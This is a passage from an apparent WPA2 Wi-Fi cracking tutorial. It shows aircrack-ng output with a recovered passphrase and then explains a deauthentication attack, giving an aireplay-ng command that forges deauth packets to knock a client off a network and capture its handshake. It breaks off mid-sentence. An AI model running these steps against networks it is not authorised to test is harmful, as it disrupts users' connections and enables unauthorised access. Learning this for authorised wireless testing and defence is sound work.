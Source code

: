                                  Aircrack-ng 1.2 beta3


                   [00:01:49] 111040 keys tested (1017.96 k/s)


                         KEY FOUND! [ hacktheplanet ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E 

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 

      EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 
## Deauth Attack
A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to crack. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect, providing you with a 4-way handshake if you are listening with airodump-ng.

Use airodump-ng to monitor a specific access point (using -c channel --bssid MAC) until you see a client (STATION) connected. A connected client look something like this, where is 64:BC:0C:48:97:F7 the client MAC.

 CH  6 ][ Elapsed: 2 mins ][ 2017-07-23 19:15 ]                                         
                                                                                                                                           
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                           
 9C:5C:8E:C9:AB:C0  -19  75     1043      144   10   6  54e  WPA2 CCMP   PSK  ASUS                                                         
                                                                                                                                           
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                 
                                                                                                                                           
 9C:5C:8E:C9:AB:C0  64:BC:0C:48:97:F7  -37    1e- 1e     4     6479  ASUS
Now, leave airodump-ng running and open a new terminal. We will use the aireplay-ng command to send fake deauth packets to our victim client, forcing it to reconnect to the network and hopefully grabbing a handshake in the process.

# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
You can optionally broadcast deauth packets to all connected clients with:
